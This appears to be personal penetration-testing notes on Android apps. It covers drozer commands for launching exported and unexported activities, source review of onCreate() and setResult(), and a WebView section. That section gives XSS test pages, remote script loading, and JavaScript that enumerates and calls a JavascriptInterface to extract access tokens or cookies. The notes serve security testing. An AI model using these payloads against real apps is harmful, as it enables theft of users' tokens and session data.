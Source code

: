 Activities are basically the GUI screen that we seen in an android app.

- `run [app.activity.info](http://app.activity.info)-a <package-name>`
    - Don't use the `-u` flag. It's for activity which are not exported.
    - Non-exported activities might also give you something juicy but usually, it requires root permissions.
- start activity is always exported because an application has to be started when someone clicks on the ICON.
    - It have intent filter for the launcher.
- If you want to invoke an activity:
    - `run app.activity.start --component <package-name> <activity-name>`

In addition to provoking any exported activity with drozer, also read the source code and see what is being done with `onCreate()`  method. Because every time activity is called there is an onCreate() method called. So maybe see what they do it with the data(if they accept any) or are there any `if/else` condition that is placed.

Also check if the activity sends any result back. This is done by `setResult()` . So see if there any call to that function and try to find out what's being sent back to the caller.

These are better know as `fragments` . They are just small UI task that kind of help the activities. 

**NOTE**: It's possible to try to provoke the `unexported` activities, because they might give you something. Like say if there is a `SETTING ACTIVITY` which shows you the setting of the application etc. Now that is only to be displayed once the user is logged in but it might be possible to provoke them with having a user to do login.


## Tricks

If any activity allows loading any URL in `webView` then try to read the JS file.

On  server host the following code:

```jsx
<html>
    <head>
        <title>Test</title>
    </head>
    <body>
        <img src='http://<server-url>/img.png' onerror=alert(1)>
    </body>
</html>
```

And then try to run the activity if alert(1) is loaded it's possible that you might see something good as well.

To test if it's possible to read the internal files try the following:

1) Make a file name `xss.html`  with the following code:

```jsx
<html>
    <head>
        <title>Test</title>
    </head>
    <body>
        <h1>Test</h1>
        <script src="http://<url>/xss.js"></script>
    </body>
</html>
```

2) In `xss.js` try with the following code:

```jsx
Object.getOwnPropertyNames(window).forEach(function(v, x) { document.writeln(v); });
```

It should give you loads of functions, scroll to the bottom and see if you have anything like `apkInterface` if yes then you can try the following command:

```jsx
Object.getOwnPropertyNames(window.apkInterface).forEach(function(v, x) { document.writeln(v); });
```

And if this gives some output then try running:

```jsx
document.write(apkInterface.getApkPushParams());
```

This might give you payload that contains access token or any kind of cookies.

Another way of checking is that see if 

- `settings.setJavaScriptEnabled(true);`
- DOM setting is enabled or not, it would look similar to line as javascriptEnabled.
- Also check for `webSettings().setAllowFileAccess(true);`  if it's false then you won't be able to read the files.


* Always look for permissions
